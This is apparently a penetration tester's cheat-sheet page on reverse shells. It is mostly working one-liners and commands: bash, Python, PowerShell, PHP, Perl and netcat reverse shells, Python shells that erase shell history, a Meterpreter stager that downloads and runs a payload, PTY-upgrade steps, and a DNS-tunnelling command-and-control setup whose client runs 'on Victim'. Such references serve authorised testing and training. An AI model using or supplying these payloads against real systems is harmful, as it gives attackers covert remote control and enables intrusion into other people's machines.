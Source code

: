 # Reverse Shells

* [https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/](https://securixy.kz/hack-faq/reverse-shell-ili-bjekkonnekt.html/)




## Bash

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```




## Python



### IPv4

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```



### IPv6

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);s.close()
import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()
```




## PowerShell

System.Net.Sockets.TCPClient:

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.13.37",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```




## PHP

```php
<?php echo passthru("/bin/bash -c '/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"); ?>
```




## Perl

```
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```




## Netcat

```
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```




## Meterpreter



### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```
$ python3 unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```




## Listeners

```
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```



### PowerShell

* [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
* [https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11](https://gist.github.com/staaldraad/8473da7f2dfed28b2216b15ca6ebad11)




## Upgrade to PTY

* [https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312](https://forum.hackthebox.eu/discussion/comment/22312#Comment_22312)
* [https://xakep.ru/2019/07/16/mischief/#toc05.1](https://xakep.ru/2019/07/16/mischief/#toc05.1)
* [https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/](https://securixy.kz/hack-faq/apgrejd-reverse-shell-do-interaktivnogo-tty.html/)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Or
$ script -q /dev/null sh

user@remote:$ ^Z
(background)

root@kali:$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
(get ROWS and COLS)

root@kali:$ stty raw -echo; fg

(opt) user@remote:$ reset

user@remote:$ stty rows ${ROWS} cols ${COLS}

user@remote:$ export TERM=xterm
(or xterm-color or xterm-256color)

(opt) user@remote:$ exec /bin/bash [-l]
```




## Transport over DNS

* [https://xakep.ru/2018/09/07/dns-tunneling/](https://xakep.ru/2018/09/07/dns-tunneling/)
* [https://habr.com/ru/post/345056/](https://habr.com/ru/post/345056/)
* [https://habr.com/ru/company/group-ib/blog/496712/](https://habr.com/ru/company/group-ib/blog/496712/)



### chashell

* [https://github.com/sysdream/chashell](https://github.com/sysdream/chashell)

Buy and configure DNS (e.g., `c2cdomain.net`):

```
A * -> <IP>
A @ -> <IP>
A chashell -> <IP>
NS c -> chashell.c2cdomain.net
```

Get dependencies:

```
$ export GOPATH=/home/snovvcrash/code/go
$ export PATH=$GOPATH:$GOPATH/bin:$PATH
$ go get -v -u github.com/golang/dep/cmd/dep
$ go get github.com/mitchellh/gox
$ cd $GOPATH/src/github.com/golang/dep
$ go install ./...
```

Clone chashell into `$GOPATH/src` (otherwise, `dep` will error out):

```
$ git clone https://github.com/sysdream/chashell $GOPATH/src/chashell
$ cd $GOPATH/src/chashell
```

Build binaries:

```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.c2cdomain.net
$ make build-all OSARCH="linux/amd64"
```

Run server on Attacker:

```
$ cd release/
$ sudo systemctl stop systemd-resolved
$ sudo ./chaserv_linux_amd64
```

Run client on Victim:

```
$ ./chashell_linux_amd64
```




## Helpers



### pwncat

* [https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/](https://securixy.kz/hack-faq/pwncat-netcat-na-steroidah.html/)
* [https://github.com/cytopia/pwncat](https://github.com/cytopia/pwncat)



### VbRev

* [https://github.com/VbScrub/VbRev](https://github.com/VbScrub/VbRev)



### xc

* [https://github.com/xct/xc](https://github.com/xct/xc)

Listen:

```
$ rlwrap ./xc -l -p 443
```

Launch:

```
PS > Start-Process -NoNewWindow .\xc.exe "10.10.13.38 443"
```



### Payload Generators

* [http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)
* [https://www.revshells.com/](https://www.revshells.com/)


#### ShellPop

* [https://github.com/0x00-0x00/ShellPop](https://github.com/0x00-0x00/ShellPop)

Bash reverse TCP:

```
$ shellpop -H 10.10.13.37 -P 9001 --reverse --number 8 --base64
```
